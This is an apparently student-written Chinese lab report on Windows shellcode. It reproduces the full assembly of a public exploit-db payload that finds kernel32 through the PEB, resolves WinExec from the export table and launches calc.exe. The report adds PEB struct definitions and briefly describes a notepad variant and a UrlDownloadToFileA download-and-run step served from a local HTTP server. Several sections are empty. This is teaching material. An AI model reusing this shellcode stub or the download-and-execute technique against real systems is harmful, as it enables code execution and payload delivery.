



# 实验一
## 实验目的
- [x] 把上面```https://www.exploit-db.com/shellcodes/48116```链接中shellcode能够成功运行
- [x] 能从汇编源码编译通过并成功dump
- [x] 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
- [x] 修改shellcode功能为运行记事本程序notepad. exe
- [ ] (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）
## 实验过程
### 链接中shellcode能够成功运行

### 能从汇编源码编译通过并成功dump
- 汇编源码
```
_start:
; Create a new stack frame
 mov ebp, esp            ; Set base stack pointer for new stack-frame
 sub esp, 0x20           ; Decrement the stack by 32 bytes

; Find kernel32.dll base address
 xor ebx, ebx            ; EBX = 0x00000000
 mov ebx, [fs:ebx+0x30]  ; EBX = Address_of_PEB
 mov ebx, [ebx+0xC]      ; EBX = Address_of_LDR
 mov ebx, [ebx+0x1C]     ; EBX = 1st entry in InitOrderModuleList / ntdll.dll
 mov ebx, [ebx]          ; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
 mov ebx, [ebx]          ; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
 mov eax, [ebx+0x8]      ; EAX = &kernel32.dll / Address of kernel32.dll
 mov [ebp-0x4], eax      ; [EBP-0x04] = &kernel32.dll

; Find the address of the WinExec Symbol within kernel32.dll
; + The hex values will change with different versions of Windows

; Find the address of the Export Table within kernel32.dll
 mov ebx, [eax+0x3C]     ; EBX = Offset NewEXEHeader  = 0xF8
 add ebx, eax            ; EBX = &NewEXEHeader        = 0xF8 + &kernel32.dll
 mov ebx, [ebx+0x78]     ; EBX = RVA ExportTable      = 0x777B0 = [&NewExeHeader + 0x78]
 add ebx, eax            ; EBX = &ExportTable         = RVA ExportTable + &kernel32.dll

; Find the address of the Name Pointer Table within kernel32.dll
; + Contains pointers to strings of function names - 4-byte/dword entries
 mov edi, [ebx+0x20]     ; EDI = RVA NamePointerTable = 0x790E0
 add edi, eax            ; EDI = &NamePointerTable    = 0x790E0 + &kernel32.dll
 mov [ebp-0x8], edi      ; save &NamePointerTable to stack frame

; Find the address of the Ordinal Table
;   - 2-byte/word entries
 mov ecx, [ebx+0x24]     ; ECX = RVA OrdinalTable     = 0x7A9E8
 add ecx, eax            ; ECX = &OrdinalTable        = 0x7A9E8 + &kernel32.dll
 mov [ebp-0xC], ecx      ; save &OrdinalTable to stack-frame

; Find the address of the Address Table
 mov edx, [ebx+0x1C]     ; EDX = RVA AddressTable     = 0x777CC
 add edx, eax            ; EDX = &AddressTable        = 0x777CC + &kernel32.dll
 mov [ebp-0x10], edx     ; save &AddressTable to stack-frame

; Find Number of Functions within the Export Table of kernel32.dll
 mov edx, [ebx+0x14]     ; EDX = Number of Functions  = 0x642
 mov [ebp-0x14], edx     ; save value of Number of Functions to stack-frame

jmp short functions

findFunctionAddr:
; Initialize the Counter to prevent infinite loop
 xor eax, eax            ; EAX = Counter = 0
 mov edx, [ebp-0x14]     ; get value of Number of Functions from stack-frame
; Loop through the NamePointerTable and compare our Strings to the Name Strings of kernel32.dll
searchLoop:
 mov edi, [ebp-0x8]      ; EDI = &NamePointerTable
 mov esi, [ebp+0x18]     ; ESI = Address of String for the Symbol we are searching for 
 xor ecx, ecx            ; ECX = 0x00000000
 cld                     ; clear direction flag - Process strings from left to right
 mov edi, [edi+eax*4]    ; EDI = RVA NameString      = [&NamePointerTable + (Counter * 4)]
 add edi, [ebp-0x4]      ; EDI = &NameString         = RVA NameString + &kernel32.dll
 add cx, 0x8             ; ECX = len("WinExec,0x00") = 8 = 7 char + 1 Null
 repe cmpsb              ; compare first 8 bytes of [&NameString] to "WinExec,0x00"
 jz found                ; If string at [&NameString] == "WinExec,0x00", then end loop
 inc eax                 ; else Counter ++
 cmp eax, edx            ; Does EAX == Number of Functions?
 jb searchLoop           ;   If EAX != Number of Functions, then restart the loop

found:
; Find the address of WinExec by using the last value of the Counter
 mov ecx, [ebp-0xC]      ; ECX = &OrdinalTable
 mov edx, [ebp-0x10]     ; EDX = &AddressTable
 mov ax,  [ecx + eax*2]  ;  AX = ordinalNumber   = [&OrdinalTable + (Counter*2)]
 mov eax, [edx + eax*4]  ; EAX = RVA WinExec     = [&AddressTable + ordinalNumber]
 add eax, [ebp-0x4]      ; EAX = &WinExec        = RVA WinExec + &kernel32.dll
 ret

functions:
; Create string 'WinExec\x00' on the stack and save its address to the stack-frame
 mov edx, 0x63657878     ; "cexx"
 shr edx, 8              ; Shifts edx register to the right 8 bits
 push edx                ; "\x00,cex"
 push 0x456E6957         ; EniW : 456E6957
 mov [ebp+0x18], esp     ; save address of string 'WinExec\x00' to the stack-frame
 call findFunctionAddr   ; After Return EAX will = &WinExec

; Call WinExec( CmdLine, ShowState );
;   CmdLine   = "calc.exe"
;   ShowState = 0x00000001 = SW_SHOWNORMAL - displays a window
 xor ecx, ecx          ; clear eax register
 push ecx              ; string terminator 0x00 for "calc.exe" string
 push 0x6578652e       ; exe. : 6578652e
 push 0x636c6163       ; clac : 636c6163
 mov ebx, esp          ; save pointer to "calc.exe" string in eax
 inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
 push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
 push ebx              ; lpcmdLine - push string address stack # 1st argument
 call eax              ; Call the WinExec Function

; Create string 'ExitProcess\x00' on the stack and save its address to the stack-frame
 xor ecx, ecx          ; clear eax register
 mov ecx, 0x73736501     ; 73736501 = "sse",0x01 // "ExitProcess",0x0000 string
 shr ecx, 8              ; ecx = "ess",0x00 // shr shifts the register right 8 bits
 push ecx                ;  sse : 00737365
 push 0x636F7250         ; corP : 636F7250
 push 0x74697845         ; tixE : 74697845
 mov [ebp+0x18], esp     ; save address of string 'ExitProcess\x00' to stack-frame
 call findFunctionAddr   ; After Return EAX will = &ExitProcess

; Call ExitProcess(ExitCode)
 xor edx, edx
 push edx                ; ExitCode = 0
 call eax                ; ExitProcess(ExitCode)
```

### 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
- PEB结构体
```
typedef struct _PEB {
  BYTE                          Reserved1[2];
  BYTE                          BeingDebugged;
  BYTE                          Reserved2[1];
  PVOID                         Reserved3[2];
  PPEB_LDR_DATA                 Ldr;
  PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
  PVOID                         Reserved4[3];
  PVOID                         AtlThunkSListPtr;
  PVOID                         Reserved5;
  ULONG                         Reserved6;
  PVOID                         Reserved7;
  ULONG                         Reserved8;
  ULONG                         AtlThunkSListPtr32;
  PVOID                         Reserved9[45];
  BYTE                          Reserved10[96];
  PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
  BYTE                          Reserved11[128];
  PVOID                         Reserved12[1];
  ULONG                         SessionId;
} PEB, *PPEB;
```
```
typedef struct _PEB {
    BYTE Reserved1[2];
    BYTE BeingDebugged;
    BYTE Reserved2[21];
    PPEB_LDR_DATA LoaderData;
    PRTL_USER_PROCESS_PARAMETERS ProcessParameters;
    BYTE Reserved3[520];
    PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
    BYTE Reserved4[136];
    ULONG SessionId;
} PEB;
```
- PE文件导入表导出表相关数据结构的文档


### 修改shellcode功能为运行记事本程序notepad. exe
- 修改第二部分汇编代码，运行得到二进制代码




### 通过c语言编程使用原生APT UrlDownloadToFileA下载可执行文件project.exe
- 搭建本地建议局域网`python -m http.server`
- 打开`localhost：8000`可以看见本地的文件
- 将project2.exe下载到本地，运行即可打开记事本


## 参考文件
- [在使用LoadLibrary( )函数动态链接DLL文件时出现的问题的解决方法](https://www.cnblogs.com/xxn-180727/p/9378519.html)
- [PEB结构体](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb)
